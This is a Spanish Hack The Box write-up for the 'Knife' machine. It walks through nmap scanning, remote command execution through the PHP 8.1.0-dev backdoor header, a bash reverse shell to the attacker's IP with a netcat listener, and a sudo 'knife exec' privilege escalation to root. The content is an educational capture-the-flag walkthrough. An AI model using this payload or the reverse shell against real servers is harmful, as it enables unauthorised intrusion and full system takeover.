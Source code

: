 ```yaml
---
title: Knife - HTB Writeup
date: 2023-09-08 03:20:00 +0800
categories: [Ciberseguridad, Writeups, HTB]
tags: [Writeup]
image:
  path: /assets/img/post/knife/jimmy-chang-Q67YYjgXBfY-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


**Knife** es una máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

En esta máquina explotaremos una **vulnerabilidad** de la versión ```8.1.8-dev``` de ```PHP``` mediante un ```RCE```

## **Reconocimiento**

Realizaremos un escaneo con ```nmap``` para descubrir puertos abiertos en la máquina víctima

```bash
nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts
```

![img](/assets/img/post/knife/d39b61c6-b6af-410d-ac30-6014585c55d5.png)

Vemos que están abiertos el puerto ```22``` y el ```80```

Vamos a realizar un escaneo de **servicios** y **versiones** sobre estos puertos:

```bash
nmap -sCV -p22,80 10.10.10.242 -oN versions
```

![img](/assets/img/post/knife/ba998012-681a-4d58-9014-5f242f7f0ec6.png)

Podemos ver que por el puerto ```22``` corre un servicio ```SSH``` y por el ```80``` un ```HTTP```

Con ```curl``` haremos una petición en la web a ver que nos devuelve:

```bash
curl -i 10.10.10.242
```

![img](/assets/img/post/knife/5ede2a37-310b-4750-856d-78e1fb163cbe.png)

## **Explotación**

Como podemos ver en la cabecera del ```output``` que nos devuelve el ```curl```, la web es lanzada por un servicio ```PHP/8.1.0-dev```

Si buscamos información sobre esta **versión** de ```PHP```, podemos ver que esta es vulnerable a un ```RCE``` *(Remote Command Execution)* utilizando la cabecera:

```bash
User-Agentt: zerodiumsystem(‘command’);
```

Podemos realizar una prueba para ver si el ```RCE``` da resultados:

> Inyectamos código en la máquina victima mediante el User-Agent

```bash
curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"id\"');"

uid=1000(james) gid=1000(james) groups=1000(james)
```

Como podemos ver el ```RCE``` funciona, así que vamos a conseguir una ```reverse shell```:

```bash
curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.8/443 0>&1\"');"
```

En otra consola nos pondremos en escucha con ```nc``` por el puerto que hayamos indicado:

```bash
nc -lvnp 443
```

Y ya tendriamos acceso a la máquina víctima:

![img](/assets/img/post/knife/1e64cb21-0ac4-46e6-8a25-3190cb332811.png)

## **Escalada de Privilegios**

Para realizar la escalada ejecutaremos

```bash
sudo -l
```

para ver los ```binarios``` que podemos ejecutar como ```root```, los cuales en este caso son los siguientes:

![img](/assets/img/post/knife/f1d1188d-4b91-416c-a6b0-33458b263970.png)

Si ejecutamos ```/usr/bin/knife``` podemos ver que hace:

```bash
james@knife:/$ /usr/bin/knife -h       

knife exec [SCRIPT] (options)
```

Usaremos esto para conseguir una consola como root, para ello ejecutaremos el siguiente comando:

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'

uid=0(root) gid=0(root) groups=0(root)
```

Y ya tendremos acceso como root a la máquina

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*
